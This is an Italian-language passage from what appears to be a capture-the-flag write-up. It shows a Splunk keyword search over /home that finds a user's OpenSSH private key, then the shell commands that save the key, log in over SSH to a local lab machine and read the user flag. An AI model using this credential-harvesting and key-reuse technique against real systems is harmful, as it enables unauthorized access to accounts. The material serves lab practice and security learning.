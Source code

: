 A questo punto basta ricercare per parola chiave ```OPENSSH``` e abbiamo la chiave privata ```source="/home/*" host="splunkenterprise" OPENSSH```
![Splunk ricerca su /home/](splunk-04.png)

Usando la chiave privata dell'utente merlos tentiamo di loggarci sulla macchina
```
$ cat <<PRIVKEY > merlos.privkey
[ output della chiave privata di cui sopra ]
PRIVKEY
$ chmod 600 merlos.privkey
$ ssh -i merlos.privkey merlos@192.168.56.102
Welcome to Ubuntu 19.04 (GNU/Linux 5.0.0-15-generic x86_64)
[...]
merlos@27may:~$ id
uid=1001(merlos) gid=1001(merlos) groups=1001(merlos)
merlos@27may:~$ cat user.txt 
43801fd7db52347fb4cc8f6f080a0718
merlos@27may:~$
```
Login riuscito e flag user presa **43801fd7db52347fb4cc8f6f080a0718**

